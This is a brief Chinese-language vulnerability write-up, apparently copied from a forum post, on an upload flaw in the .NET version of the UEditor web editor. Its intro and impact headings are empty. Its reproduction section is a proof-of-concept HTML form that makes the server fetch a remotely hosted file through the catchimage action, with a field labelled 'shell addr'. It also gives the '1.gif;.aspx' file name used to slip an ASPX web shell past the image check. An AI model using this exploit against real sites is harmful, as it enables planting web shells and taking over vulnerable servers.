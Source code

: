 # ueditor .net版本上传漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3208](https://www.zhihuifly.com/t/topic/3208)

# ueditor .net版本上传漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

本地上传poc

```
<form action="http://www.xxxxx.com/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
shell addr: <input type="text" name="source[]" />
 <input type="submit" value="Submit" />
</form> 
```

上传文件名为 1.gif;.aspx